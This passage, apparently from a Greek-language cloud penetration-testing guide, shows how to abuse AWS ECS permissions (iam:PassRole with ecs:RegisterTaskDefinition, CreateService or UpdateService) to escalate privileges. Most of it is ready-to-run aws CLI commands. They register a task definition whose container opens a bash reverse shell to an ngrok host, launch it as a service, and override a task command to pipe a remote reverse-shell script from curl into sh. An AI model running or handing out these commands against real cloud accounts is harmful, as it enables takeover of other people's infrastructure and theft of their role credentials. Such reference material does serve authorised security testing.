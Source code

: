### `iam:PassRole`, `ecs:RegisterTaskDefinition`, (`ecs:UpdateService|ecs:CreateService)`

Ακριβώς όπως στο προηγούμενο παράδειγμα, ένας επιτιθέμενος που εκμεταλλεύεται τα δικαιώματα **`iam:PassRole`, `ecs:RegisterTaskDefinition`, `ecs:UpdateService`** ή **`ecs:CreateService`** στο ECS μπορεί να **δημιουργήσει μια νέα ορισμό εργασίας** με ένα **κακόβουλο κοντέινερ** που κλέβει τα διαπιστευτήρια μεταδεδομένων και **να το εκτελέσει δημιουργώντας μια νέα υπηρεσία με τουλάχιστον 1 εργασία σε εκτέλεση.**
```bash
# Generate task definition with rev shell
aws ecs register-task-definition --family iam_exfiltration \
--task-role-arn  "$ECS_ROLE_ARN" \
--network-mode "awsvpc" \
--cpu 256 --memory 512\
--requires-compatibilities "[\"FARGATE\"]" \
--container-definitions "[{\"name\":\"exfil_creds\",\"image\":\"python:latest\",\"entryPoint\":[\"sh\", \"-c\"],\"command\":[\"/bin/bash -c \\\"bash -i >& /dev/tcp/8.tcp.ngrok.io/12378 0>&1\\\"\"]}]"

# Run the task creating a service
aws ecs create-service --service-name exfiltration \
--task-definition iam_exfiltration \
--desired-count 1 \
--cluster "$CLUSTER_ARN" \
--launch-type FARGATE \
--network-configuration "{\"awsvpcConfiguration\":{\"assignPublicIp\": \"ENABLED\", \"subnets\":[\"$SUBNET\"]}}"

# Run the task updating a service
aws ecs update-service --cluster <CLUSTER NAME> \
--service <SERVICE NAME> \
--task-definition <NEW TASK DEFINITION NAME>
```
**Πιθανές Επιπτώσεις:** Άμεσο privesc σε οποιοδήποτε ρόλο ECS.

### `iam:PassRole`, (`ecs:UpdateService|ecs:CreateService)`

Στην πραγματικότητα, μόνο με αυτές τις άδειες είναι δυνατόν να χρησιμοποιηθούν παρακάμψεις για την εκτέλεση αυθαίρετων εντολών σε ένα κοντέινερ με έναν αυθαίρετο ρόλο με κάτι σαν: 

{% code overflow="wrap" %}
```bash
aws ecs run-task \
--task-definition "<task-name>" \
--overrides '{"taskRoleArn":"<role-arn>", "containerOverrides":[{"name":"<container-name-in-task>","command":["/bin/bash","-c","curl https://reverse-shell.sh/6.tcp.eu.ngrok.io:18499 | sh"]}]}' \
--cluster <cluster-name> \
--network-configuration "{\"awsvpcConfiguration\":{\"assignPublicIp\": \"DISABLED\", \"subnets\":[\"<subnet-name>\"]}}"
```
{% endcode %}

**Πιθανές Επιπτώσεις:** Άμεσο privesc σε οποιοδήποτε ρόλο ECS.
